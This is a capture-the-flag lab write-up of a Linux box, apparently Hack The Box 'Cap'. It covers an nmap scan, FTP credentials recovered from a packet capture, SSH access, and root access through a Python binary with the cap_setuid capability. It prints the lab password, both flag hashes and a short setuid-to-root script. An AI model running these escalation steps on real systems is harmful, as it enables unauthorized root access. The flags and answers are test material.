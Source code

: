 ```yaml
---
created: 2024-09-24T21:48
updated: 2025-08-18T09:17
description: My first proper linux privilege escalation!
---
```


## nmap

```bash
nmap -sV -p- --min-rate=1000 10.129.184.198

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.129.184.198
```

- Trying to login to `ftp` with `anonymous` didn't work.
- Website seems to capture packets.
- Wait, `http://10.129.184.198/data/0` exists before my first capture.

## 0.pcap

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727229565/2024/09/67c95341c80115c1e5708bc4edff1fd7.png)

```
USER nathan
PASS Buck3tH4TF0RM3!
```

The capture for some reason has username and password of a user.
## ftp as nathan + flag 1

```bash
ftp 10.129.184.198
ftp> ls
-r--------    1 1001     1001           33 Sep 25 01:45 user.txt
ftp> get user.txt
ftp> exit

cat user.txt
543bd52d3b323a211f9dc96b137464e2
```

## ssh as nathan

We can also ssh to the server as nathan.

```bash
ssh nathan@10.129.184.198
```

But I have no clue about the privilege escalation part.

### capabilities

```bash
nathan@cap:/$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

### PEASS-ng

Auto escalation detection script.

I downloaded `linpeas.sh` from [peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) (github.com)](https://github.com/peass-ng/PEASS-ng), and ran it as nathan.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727232503/2024/09/8e5b53940ebcf69c8b3dce74d09acaf5.png)

It is highlighted? Why?

## Privilege escalation with `setuid`

Turns out `cap_setuid` can be used to change the user id of the current process, setting it to 0 would essentially make us root.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727232692/2024/09/c30739e99b7a6c957d59aae286792888.png)

Wow, we have root access now!

```python [escalation.py]
import os
os.setuid(0)
os.system("bash")
```

## flag 2

```bash
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
a2b5a6b4f9a1b513a273660ebef38b70
```

OwO
